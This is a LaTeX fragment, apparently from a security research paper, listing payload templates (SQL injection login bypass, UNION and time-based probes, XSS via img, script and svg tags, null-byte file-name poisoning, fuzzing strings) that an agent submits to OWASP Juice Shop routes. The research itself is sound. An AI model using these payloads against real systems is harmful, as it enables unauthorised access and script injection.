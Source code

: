 \documentclass[conference, a4paper]{IEEEtran}
\begin{document}
\begin{table}[!t]
\caption{Configured Payload Templates}
\label{tab:payloads}
\centering
\scriptsize
\begin{tabular}{p{}p{}p{}}
\toprule
\textbf{Name} & \textbf{Class} & \textbf{Payload}\\
\midrule
\texttt{sqli\_tautology} & SQLi & \lstinline|' OR '1'='1|\\
\texttt{sqli\_comment} & SQLi & \lstinline|apple'--|\\
\texttt{sqli\_union} & SQLi & \lstinline|' UNION SELECT NULL--|\\
\texttt{sqli\_time} & SQLi & \lstinline|' OR SLEEP(5)--|\\
\texttt{sqli\_wildcard} & SQLi & \lstinline|%s%s%s%s%s%s%s%s|\\
\texttt{sqli\_login} & SQLi & \lstinline|{"email":"admin@juice-sh.op' OR '1'='1","password":"a"}|\\
\texttt{xss\_img} & XSS & \lstinline|<img src=x onerror=alert(document.domain)>|\\
\texttt{xss\_script} & XSS & \lstinline|<script>alert(document.domain)</script>|\\
\texttt{xss\_svg} & XSS & \lstinline|<svg onload=alert(1)>|\\
\texttt{xss\_review} & XSS & \lstinline|{"message":"<img src=x onerror=alert(document.domain)>","author":"rlpoc"}|\\
\texttt{lfi\_poison\_null} & File & \lstinline|package.json.bak%2500.md|\\
\texttt{lfi\_coupons} & File & \lstinline|coupons_2013.md.bak%2500.md|\\
\texttt{lfi\_wap\_rules} & File & \lstinline|suspicious_errors.yml%2500.pdf|\\
\texttt{fuzz\_long} & Fuzzing & \texttt{A} repeated 1,628 times\\
\texttt{fuzz\_null} & Fuzzing & \lstinline|admin%00|\\
\bottomrule
\end{tabular}
\end{table}

Each action submits one template to one route. The following state
is derived from its response. Payload and surface choices encode
prior knowledge of Juice Shop and constrain the experiment's scope.

\subsection{State Representation}
\end{document}

